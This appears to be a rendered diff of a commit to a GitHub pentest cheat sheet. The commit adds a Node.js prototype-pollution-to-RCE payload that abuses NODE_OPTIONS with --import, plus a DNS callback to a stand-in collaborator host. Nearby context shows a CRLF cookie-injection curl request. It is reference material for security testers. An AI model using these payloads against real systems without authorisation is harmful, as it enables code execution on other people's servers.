

Before and after one commit to bin3xish477/cybersecurity, a Markdown page: CheatSheets/pentest-cheat-sheet.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Adds prototype pollution to RCE example using NODE_OPTIONS and --import cli arg

````diff
--- a/CheatSheets/pentest-cheat-sheet.md
+++ b/CheatSheets/pentest-cheat-sheet.md
@@ -2040,3 +2040,15 @@ curl -X GET "http://example.com/vulnerable-page" -H "Cookie: somecookie%0D%0AInj
 |X-Forwarded-Scheme|Indicate the original scheme (HTTP or HTTPS) of the request|Ensures correct URL generation and handling of secure connections.|
 |X-Host|Non-standard header; specific use case dependent|Usage would depend on the application or configuration employing this header.|
 |X-Forwarded-IP|Specify the original client's IP address|Preserves the client's IP address for security, logging, and other purposes.|
+
+### Node CLI Options RCE for Prototype Pollution
+> https://portswigger.net/research/exploiting-prototype-pollution-in-node-without-the-filesystem
+```shell
+node --import='data:application/javascript,console.log(1337)'
+```
+
+```json
+"__proto__":{
+   "NODE_OPTIONS": "--import=\"data:text/javascript,import dns from 'node:dns';dns.lookup('YOUR_COLLABORATOR_ID.oastify.com', x=>1)\""
+}
+```
````
